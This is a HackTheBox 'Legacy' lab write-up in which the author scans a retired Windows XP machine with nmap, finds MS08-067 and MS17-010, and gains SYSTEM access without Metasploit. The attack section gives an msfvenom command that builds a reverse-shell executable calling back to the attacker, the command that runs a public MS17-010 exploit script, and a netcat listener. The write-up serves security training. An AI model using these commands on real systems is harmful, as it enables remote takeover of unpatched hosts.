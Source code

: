 ```yaml
---
title: Legacy Writeup- HackTheBox
author: pwnd_root
date: 2020-07-09 00:30:00 +0530
excerpt: A windows host from HackTheBox, owned by exploiting SMB vulnerability, without metasploit.
categories: [HackTheBox, Retired]
tags: [htb, samba, without metasploit, MS17-010, windows]
---
```

![Info Card](/assets/img/posts/legacy/info.png)

## Methodology
1. Port Enumeration
2. Samba version enumeration
3. Manual exploit
4. SYSTEM access to target

## Port Enumeration
The nmap port scan had identified 2 open ports- netbios-ssn (139) and microsoft-ds (445), running SMB services.
The vulnerability script scan had identified the vulnerabilities **MS08-067** and **MS17-010** from the Microsoft 
Security Bulletin.  
``` 
[pwnd_root@manjaro Legacy]$ targetRecon 10.10.10.4
[+] Open Ports Scan
        139     netbios-ssn
        445     microsoft-ds
[+] Scripts Scan
                 nmap -sV -sC --script=vuln -p 139 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:52 IST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4 (10.10.10.4)
Host is up (0.36s latency).

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                                 
|        servers (ms17-010).                                                                                                                                                     
|                                                                                                                                                                                
|     Disclosure date: 2017-03-14                                                                                                                                                
|     References:                                                                                                                                                                
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx                                                                                                       
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/                                                                            
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143                                                                                                             

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                   
Nmap done: 1 IP address (1 host up) scanned in 54.69 seconds                                                                                                                     

                 nmap -sV -sC --script=vuln -p 445 10.10.10.4

Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 19:53 IST                                                                                                                  
Pre-scan script results:                                                                                                                                                         
| broadcast-avahi-dos:                                                                                                                                                           
|   Discovered hosts:                                                                                                                                                            
|     224.0.0.251                                                                                                                                                                
|   After NULL UDP avahi packet DoS (CVE-2011-1002).                                                                                                                             
|_  Hosts are all up (not vulnerable).                                                                                                                                           
Nmap scan report for 10.10.10.4 (10.10.10.4)                                                                                                                                     
Host is up (0.34s latency).                                                                                                                                                      

PORT    STATE SERVICE      VERSION                                                                                                                                               
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds                                                                                                                     
|_clamav-exec: ERROR: Script execution failed (use -d to debug)                                                                                                                  
Service Info: OS: Windows XP; CPE: cpe:/o:microsoft:windows_xp                                                                                                                   

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.58 seconds

[+] Summary 
139     netbios-ssn     Microsoft Windows netbios-ssn N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']

445     microsoft-ds    Microsoft Windows XP microsoft-ds N/A
Vulnerabilities
['smb-vuln-ms08-067', 'smb-vuln-ms17-010']
```
## Manual Exploit
The exploits from exploit-db for **MS17-010** did not work as expected. With the intention of avoiding metasploit module, 
after googling for a while a working
 manual exploit named [send_and_execute.py](https://github.com/helviojunior/MS17-010) was found. 
 > Note: The exploit requires **Impacket** and **mysmb.py** in order to work.

## SYSTEM access
As per the source code, the exploit takes two mandatory arguments, *target IP* and the *executable* that gets executed on the
target as *SYSTEM* user. A windows reverse shell as an executable was generated with *msfvenom* as follows.
``` 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=9090 EXITFUNC=thread -f exe -a x86 --platform windows -o legacy.exe
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: legacy.exe
```
Post generating the reverse shell, a netcat listener on port 9090 was started on the attacking machine. The exploit was 
executed as ```python2.7 send_and_execute.py 10.10.10.4 legacy.exe```
After successful execution of the exploit, a reverse shell was captured on the netcat listener.

![User Shell](/assets/img/posts/legacy/user.png)

![SYSTEM Shell](/assets/img/posts/legacy/system.png)

> Being an old Windows XP OS, the target did not have *whoami* binary installed. One method of finding out the current 
user is to upload a *32-bit whoami executable* to the target and use it. However the easiest way to check if we have
*Administrator* access, is by checking if **root.txt** from *C:\Documents and Settings\Administrator\Desktop* is readable.